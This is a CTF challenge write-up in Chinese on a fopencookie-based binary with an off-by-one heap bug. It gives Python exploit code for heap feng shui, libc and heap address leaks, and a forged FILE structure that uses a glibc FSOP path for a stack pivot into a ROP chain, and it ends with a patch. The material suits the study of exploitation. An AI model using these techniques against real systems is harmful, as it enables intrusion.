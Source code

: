 ## 程序说明

程序主要利用`fopencookie()`函数实现了一个自定义回调操作（`read`、`write`、`seek`和`close`）的 `FILE`结构体，可以使用标准 C 函数（`fread`、`fwrite`和`fseek`等）对`FILE`进行数据流操作。

`stream_open()`函数用于创建`FILE`：首先调用`alloc_cookie()`分配一个用于储存缓冲区指针、读/写指针等信息的内存空间`cookie`，然后调用`calloc()`分配大小为`size`的缓冲区。使用[Pointer Encryption
](https://sourceware.org/glibc/wiki/PointerEncryption)加密`cookie`指针后，传递给`fopencookie()`创建新的`FILE`对象。

![](img/1.png)

`init_cookie_jar()`函数初始化`cookie`所在的内存空间，主要是使用`mmap`创建一块地址随机的内存空间，首地址设为`COOKIE_JAR_PTR`并置`COOKIE_JAR_ALLOC_MAP`为`0xFFFFFFFFFFFFFFFF`。`COOKIE_JAR_ALLOC_MAP`记录`cookie`内存空间的使用情况，`alloc_cookie()`和`dealloc_cookie`通过位操作更新`COOKIE_JAR_ALLOC_MAP`实现`cookie`的分配和释放。

![](img/2.png)

![](img/3.png)

![](img/4.png)

`stream_[read,write,seek,close]`是 IO 回调函数：解密`cookie`指针后，进行对应的 IO 操作。`do_[open,read,write,seek,close]`则辅助用户调用对应的操作。

## 漏洞说明

`stream_write`和`stream_read`函数可以越界读/写缓冲区后一字节数据，形成  off-by-one 漏洞。

当`pos`指针加上读/写数据长度超出缓冲区大小时，由于判断边界错误，导致可以多读/写一字节数据。

![](img/5.png)

本题漏洞利用环境相当苛刻：

1. 程序开启`Full RELRO`、`PIE`、`stack canary`等所有保护机制；
2. 开启`seccomp`沙盒，只允许使用`open`、`read`、`write`等少数 syscall；
3. 没有调用`exit()`以及`puts`、`printf`等常见 IO 函数；
4. 使用最新的 GLIBC 2.35；
5. 使用`calloc`而不是`malloc`分配内存。

对已知攻击手法的抵御：

1. 没有调用`exit()`，可以抵御 [House of Banana](https://www.anquanke.com/post/id/222948) 等攻击`rtld_global`的漏洞利用手法。
2. 由于程序使用`Pointer Encryption`加密`cookie`指针，使用例如 [House of Emma](https://www.anquanke.com/post/id/260614) 等需要篡改`__pointer_chk_guard`的攻击手法就会导致程序在执行 IO 回调（例如`rewind(fp)`）时崩溃。
3. 在 GLIBC 2.33+ 中，`malloc_hook/free_hook`不可用，[House of Kiwi](https://www.anquanke.com/post/id/235598) 等需要借助`hook`劫持栈空间的攻击手法失效。
4. 使用`calloc`函数，可以避免使用 tcache，防止通过劫持 tcache 指针的任意地址分配攻击。

## 解题思路

解题需要使用一条存在于全版本  GLIBC 的特殊 FSOP 路径：`_IO_wfile_underflow_mmap -> _IO_wdoallocbuf`，其中`_IO_wfile_underflow_mmap`位于`_IO_wfile_jumps_mmap`，可以通过调整`fp->vtable`指针调用。

进入`_IO_wfile_underflow_mmap`后，通过伪造`FILE`结构体，可以经过`cd = fp->_codecvt`和`_IO_wdoallocbuf (fp)`两条语句，其中前者为`mov rbp, qword ptr [rdi+0x89]`，即可以控制`rbp`寄存器。

```c
static wint_t
_IO_wfile_underflow_mmap (FILE *fp)
{
  struct _IO_codecvt *cd;
 
  [...]
 
  if (__glibc_unlikely (fp->_flags & _IO_NO_READS))
    {
      __set_errno (EBADF);
      return WEOF;
    }
  if (fp->_wide_data->_IO_read_ptr < fp->_wide_data->_IO_read_end)
    return *fp->_wide_data->_IO_read_ptr;
 
  cd = fp->_codecvt;       <------------ mov rbp, qword ptr [rdi+0x89]
 
  [...]
 
  if (fp->_wide_data->_IO_buf_base == NULL)
    {
      /* Maybe we already have a push back pointer.  */
      if (fp->_wide_data->_IO_save_base != NULL)
    {
      free (fp->_wide_data->_IO_save_base);
      fp->_flags &= ~_IO_IN_BACKUP;
    }
      _IO_wdoallocbuf (fp); <----------- Go to next hop
    }
 
  [...]
 
}    
```

在`_IO_wdoallocbuf`中，存在一条可以劫持的虚表函数调用`_IO_WDOALLOCATE (fp)`。若将控制流劫持到`leave; ret` gadget 上，结合控制`rbp`，就能将`rsp`寄存器指向任意地址，实现栈迁移。

```c
void
_IO_wdoallocbuf (FILE *fp)
{
  if (fp->_wide_data->_IO_buf_base)
    return;
  if (!(fp->_flags & _IO_UNBUFFERED))
    if ((wint_t)_IO_WDOALLOCATE (fp) != WEOF) <------ mov rax, qword [rax+0xe0]; call qword [rax+0x68]
      return;
 
  [...]
 
}
```

***

首先填满 `0x1f0` tcache：

```python
for i in range(7):
    add(i, 0, 0x1e0)
for i in range(6, -1, -1):
    free(i)
```

然后堆风水布局，利用  off-by-one 漏洞将`0x100`堆块的大小改为`0x1f0`（重叠一块`0xf0`堆块）。释放后，两个堆块合并至 top chunk：

```python
add(0, 0, 0x118)
add(1, 0, 0xf0)
add(2, 0, 0xe8)

write(0, 0x118*'\x00'+p8(0xf1))
free(1)
```

最后再次堆风水，可以形成 overlapping chunk，任意读写某个`fopencookie()`分配到堆上的`FILE`结构体对象。

```
for i in range(5):
    add(0, 0, 0x10)
add(1, 0, 0x50)

# 泄漏地址
x = read(2, 0xe8)
heap = u64(x[8:16]) - 0x1ab3
libc = u64(x[0xd8:0xe0]) - 0x215b80
success("libcbase: 0x%lx", libc)
success("heapbase: 0x%lx", heap)
```

在堆上构造好 ORW ROP 链后，构造能够进入`_IO_wfile_underflow_mmap -> _IO_wdoallocbuf`的 payload，然后改写堆上的`FILE`对象。

```python
fp = heap_os(0x1a30)
leave_ret  = libc_os(0x562ec)
vtable_ptr = libc_os(0x216020)
forge_file = flat({
  0x10 : 0xffffffffffffffff,
  0x28 : 0xffffffffffffffff,
  0x68 : leave_ret,
  0x88 : heap_os(0x1337),
  0x98 : rop_chain - 8,
  0xa0 : fp,
  0xd8 : vtable_ptr-0x10,
  0xe0 : fp,
}, filler=b'\x00')

seek(2, 0, 0)
write(2, forge_file)
```

最后触发 IO 操作，进入 FSOP 路径，实现栈迁移。

```python
free(1)
```

## 修复思路

只需将位于`0x1a18`的`add rax, 1` patch 掉即可，修复 off-by-one 写漏洞。读漏洞可以不修复。

check 脚本只进行了两项检查：1) 利用泄漏的 12bit 缓冲区地址判断 `free()` 函数是否被 patch 掉；2) 读写 0x200 随机数据，判断 IO 操作是否正常和缓冲区大小限制符合预期。